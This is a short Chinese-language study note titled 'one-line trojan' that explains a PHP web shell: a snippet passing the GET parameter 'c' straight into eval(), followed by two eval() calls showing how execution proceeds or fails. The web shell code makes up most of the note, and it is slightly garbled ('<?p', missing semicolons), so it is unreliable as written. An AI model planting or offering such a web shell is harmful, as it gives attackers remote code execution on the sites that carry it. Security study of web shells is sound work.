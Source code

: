 # 一句话木马

eval()的特性是第一个成功了, 后续的才能执行;

```php
<?p
if(isset($_GET['c'])){
$c = $_GET['c']
eval($c)
}
?>
```

```php
eval('phpinfo();phpinfo();fdsfsdfds'.'asdasdsa();');//成功执行
eval('asdasdsa();phpinfo();fdsfsdfds'.'asdasdsa();');//执行失败

```
